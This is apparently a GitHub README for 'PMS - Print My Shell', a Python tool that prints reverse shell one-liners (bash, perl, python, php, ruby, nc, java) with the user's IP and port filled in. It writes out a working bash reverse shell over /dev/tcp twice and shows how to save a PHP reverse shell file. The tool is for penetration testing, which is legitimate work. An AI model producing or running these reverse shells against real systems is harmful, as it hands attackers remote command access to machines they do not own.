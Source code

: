 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Install
----------------
```sh
$ git clone https://github.com/etrock/PMS.git
$ cd PMS
```
You can add to your ~/.bashrc file
```
alias pms='python3 "<pms path>/pms.py"'
source ~/.bashrc
```
and now you can use like :
```sh
$ psm bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-h --host```: *optional*, host IP address\
```-p --port```: *optional* port number

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
Don't forget to edit your ```pms.conf``` file
```sh
$ python3 pms.py bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py php-rev > shell.php
```
